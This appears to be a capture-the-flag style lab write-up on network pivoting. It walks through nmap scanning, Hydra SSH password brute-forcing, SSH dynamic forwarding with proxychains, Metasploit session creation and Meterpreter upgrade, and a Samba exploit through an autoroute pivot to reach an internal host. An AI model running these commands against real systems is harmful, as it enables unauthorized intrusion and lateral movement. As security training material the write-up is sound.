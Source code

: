 ```yaml
---
title: Pivoting VII
date: 2022-06-06 12:00:00 -500
categories: [Pentesting,Pivoting]
tags: [Pentester Academy,Metasploit]
---
```


# Pivoting VII

# Steps Taken:
#### 1. Scan the target machine with NMAP:

```bash
nmap -sV --script=banner {target-ip}
```

#### 2. Use Hydra to brute force the credentials since SSH is available:
```bash
hydra {target-ip-internal-network} ssh -t 4 -l root -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-40.txt -f -V
```
#### 3. Create a Dynamic Port Forwarding on this SSH session through the first compromised machine:
```bash
ssh -D 9050 root@{target-ip}
```
#### 4. Make sure that the port forwarding is actually enabled by checking it using:
```bash
netstat -tpln
```
on another terminal session and NOT on the same session where the SSH login was done.

#### 5. Do NMAP with Proxychains on this:
```bash
proxychains nmap -sT -Pn {target-ip-internal} -v
		- This shows the open ports are ports 139 and 445 on the target machine inside the internal network
```

![](/assets/img/1624.png)

 #### 6. Reviewing from the previous pivoting labs, we use "exploit/linux/.../is_pipe..." exploit. Let's try that one in this lab as well.

		- We can't execute the metasploit exploit in here since we need autoroute to create a pivot in this compromised machine, but how do you do that with this given SSH session?


		- First, we need to setup the database for Metasploit:
```bash
service postgresql start
msfdb init
msfconsole -q
msf > db_status
```

		- Second, use "auxiliary/scanner/ssh/ssh_login". This is used to create a Metasploit sessions on this SSH session! In this way, we can create a pivot using "autoroute" in Metasploit with this SSH session. In this case, there would be NO NEED FOR THE DYNAMIC PORT FORWARDING since we need to use exploit from Metasploit in the first place.
```bash
msf > use auxiliary/scanner/ssh/ssh_login
msf > set RHOSTS 192.30.160.3
msf > set USERNAME root
msf > set PASSWORD 1234567890
msf > exploit
```

![](/assets/img/1625.png)

**Reference**:
https://nullsweep.com/pivot-cheatsheet-for-pentesters/
	
	- See another session created? Now you can upgrade this to Meterpreter!

		msf > sessions -u 1

#### 7. Now, create the pivot on this compromised machine with SSH session:

![](/assets/img/1626.png)

	- Note that if there would be a way for us to send the exploit through the dynamic port forwarding with just SSH, we wouldn't need to use Metasploit to create a pivot and then send the exploit.

#### 8. In this case, we use the same exploit for Samba as from previous labs since using different exploit seems to be not the point of the box:

![](/assets/img/1627.png)

#### 9. Get the flag:

![](/assets/img/1628.png)

![](/assets/img/1629.png)
